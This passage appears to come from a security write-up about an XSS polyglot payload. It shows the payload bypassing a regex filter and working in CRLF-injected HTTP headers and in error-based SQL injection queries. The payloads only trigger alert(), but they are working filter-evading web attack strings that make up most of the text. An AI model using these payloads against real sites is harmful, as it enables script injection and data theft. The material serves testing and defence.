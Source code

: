* `<sVg/oNloAd=alert()//>` bypasses:

```
preg_replace('/<\w+\s+/', '', PAYLOAD);
```

### Bonus attacking contexts covered:



#### CRLF-based XSS:

```
HTTP/1.1 200 OK
Date: Sun, 01 Mar 2016 00:00:00 GMT
Content-Type: text/html; charset=utf-8
Set-Cookie: x=jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//

//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

#### Error-based SQL injections (yes, SQLi!):

```
SELECT * FROM Users WHERE Username='jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e'
```

```
SELECT * FROM Users WHERE Username="jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e"
```

**And even more; eish...I'm tired counting down already!**







